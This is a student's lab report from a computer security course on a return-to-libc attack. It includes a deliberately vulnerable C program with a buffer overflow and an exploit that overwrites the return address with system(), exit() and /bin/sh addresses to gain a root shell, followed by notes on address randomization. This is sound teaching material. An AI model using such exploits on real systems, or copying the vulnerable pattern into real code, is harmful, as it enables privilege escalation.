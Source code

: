 # Lab12



**Name** 黎诗龙

**SID** 11811407



## Task1

![1](.\img\1.png)

I found the the addresses of libc functions are as following, which are shown in the picture.

`system()`  is `0xb7e42da0`.

`exit()` is `0xb7e369d0`.



## Task2

I add the code from the pdf into the code, and the code is like this

```c
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
	char buffer[12];
	/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	return 1;
}
int main(int argc, char **argv)
{
	char* shell = getenv("MYSHELL");
	if (shell)
		printf("shell address is %x\n", (unsigned int)shell);
	FILE *badfile;
	badfile = fopen("badfile", "r");
	bof(badfile);
	printf("Returned Properly\n");
	fclose(badfile);
	return 1;
}
```

![2](.\img\1.png)

 I print out the address of the shell command in the `main()`, and it shows that the address of `/bin/sh` is `0xbffffddc`.

## Task3

From the ppt we know that $X=Y+8, Z=Y+4$

To modify the `exploit.c` like this:

```c
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
char buf[40];
FILE *badfile;
badfile = fopen("./badfile", "w");
memset (&buf,0xaa,40);
int Y = 24;
*(long *) &buf[Y+8] = 0xbffffddc ; // "/bin/sh" 
*(long *) &buf[Y] = 0xb7e42da0 ; // system() 
*(long *) &buf[Y+4] = 0xb7e369d0 ; // exit() 
fwrite(buf, sizeof(buf), 1, badfile);
fclose(badfile);
}
```

After compiling it and running it and `retlib`, then I got this:

![3](./img/2.png)

It shows that I got the`root` privilege. 

### Attack variation1

After I cancelled the `exit()`, then the attack is still successful, just a little bit wrong with `exit` command in the bash shell.

![3](./img/3.png)

### Attack variation2

The attack failed and it shows that the address of `/bin/sh` has changed, and this is the reason why the hacking fails.

![5](./img/4.png)

## Task4

The attack has failed naturally, since every time I run the `retlib` it has changed the address of the `/bin/sh` so it is hardly to predict and execute the shell code.

![6](./img/5.png)

And we met the `segmentation fault`, which means the addresses of `system()` and `exit()` have changed.

For $X, Y, Z$, they stay the same because they are the relative offset (address), the randomization has no effect on it.



## Observation

The `return-to-libc` attack can bypass the stack protection and exploit the `root` privilege by buffer overflow attack. 

In the last lab of Computer Security, I learn more about the stack structure of `%ebp` `%eip` `%esp` `%eax` they are quite to be seen in the function call, which is very fundamental to us cs student.

And finally, from the 12 labs Prof. Zhang introduces the interesting and core parts of the classical attacks in the system security, web security, app security. To be honest, they are hard to learn, and sometimes confusing for me, but I am still very interested in them because security always brings surprising and interesting observations. And in this course, I learned a lot.

Thanks for Prof. Zhang, also for TAs.